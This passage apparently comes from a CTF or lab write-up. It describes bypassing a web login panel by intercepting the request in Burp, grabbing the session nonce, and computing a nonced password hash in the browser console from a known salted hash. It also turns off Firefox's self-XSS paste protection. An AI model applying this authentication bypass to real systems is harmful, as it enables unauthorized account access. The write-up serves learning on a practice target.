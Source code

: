 ![Pasted image 20250117173940.png](../../IMAGES/Pasted%20image%2020250117173940.png)

So, we need to do this, first, fire up burp, send a random password, intercept the request, click `do intercept -> response to this request` and grab the `session-nonce`, then do the following:

```js
var saltedpwd = '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a'; 
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('session-nonce') + saltedpwd)).toString(CryptoJS.enc.Base64); 
console.log(noncedpwd);
```

```ad-summary
1. enter about:config in the search bar
2. search devtools.selfxss.count and double click
3. change value to 1.
4. `Ctrl+Shift+K`
5. Copy the `noncedpwd` returned.
```

We need to do this next:

![Pasted image 20250117174820.png](../../IMAGES/Pasted%20image%2020250117174820.png)

If we do everything correctly, we must bypass the login panel:
